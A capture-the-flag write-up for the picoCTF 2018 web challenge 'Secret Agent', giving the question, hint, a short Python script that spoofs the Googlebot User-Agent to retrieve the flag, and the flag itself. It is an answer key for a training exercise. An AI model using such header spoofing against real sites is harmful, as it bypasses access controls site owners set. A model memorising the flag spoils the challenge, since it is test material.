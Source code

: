# Secret Agent
**Points: 200**

## Web Exploitation

## Question
>Here's a little website that hasn't fully been finished. But I heard google gets all your info anyway. http://2018shell.picoctf.com:60372 (link) 

### Hint
>How can your browser pretend to be something else?

## Solution
Set the User Agent with the Googlebots User Agents
```python
#!/usr/bin/python3

import requests
import re

headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}
r = requests.get('http://2018shell1.picoctf.com:53383/flag', headers=headers)
print (re.findall('(picoCTF\{.+\})', r.text)[0])
```


### Flag
`picoCTF{s3cr3t_ag3nt_m4n_134ecd62}`
